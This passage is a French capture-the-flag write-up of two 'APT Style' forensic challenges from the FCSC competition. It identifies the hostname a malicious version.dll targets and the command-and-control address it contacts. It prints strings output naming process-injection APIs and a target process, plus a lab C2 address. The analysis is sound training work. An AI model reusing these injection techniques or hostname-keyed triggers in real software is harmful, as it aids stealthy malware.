> Quelle machine est ciblée par la charge malveillante ? La réponse attendue est le nom de la machine au format FCSC{nom}.

### Solve

Un string suffit a obtenir le nom de la machine ciblée :

```shell
strings old-dll/version.dll 
!This program cannot be run in DOS mode.
RichAG
.text
`.rdata
@.data
.pdata
@.rsrc
@.reloc
L$ SVWH
[...]
D$ $
\$(3
t$0H
T$ L
ntdll.dll
ZwOpenProcess
ZwCreateSection
NtMapViewOfSection
ZwCreateThreadEx
NtDelayExecution
ZwClose
[-] Failed to load NTDLL function
RuntimeBroker.exe
nljM8AUq0Bb4LU9L7BhfrycmTwum
[-] Cannot delay execution. Error code: %08X
DESKTOP-3BY599R
[...]
```

**Flag : FCSC{DESKTOP-3BY599R}**

## APT Style 7/7

Difficulté : :star: :star:

### Énoncé

>Note : il semblerait que l'attaquant ait supprimé de son répertoire en ligne la DLL malveillante ... L'administrateur ayant observé les comportements malveillants a fait l'installation le 15/03/2023
>
> Quel C2 est contacté par la charge malveillante ? Le flag est au format FCSC{IP:PORT}.

### Solve

Pour récupérer les informations du C2, on va réaliser une analyse dynamique en exécutant le `OneDriveStandaloneUpdater.exe` et analyse capturer/analyser le traffic réseau avec **Wireshark**

> Attention : il est nécéssaire de mettre le bon hostname à la VM pour que le payload se déclenche



On remarque directement le port 1337, référence au **leet speak**, de l'anglais "elite speak"

**Flag : FCSC{192.168.56.1:1337}**
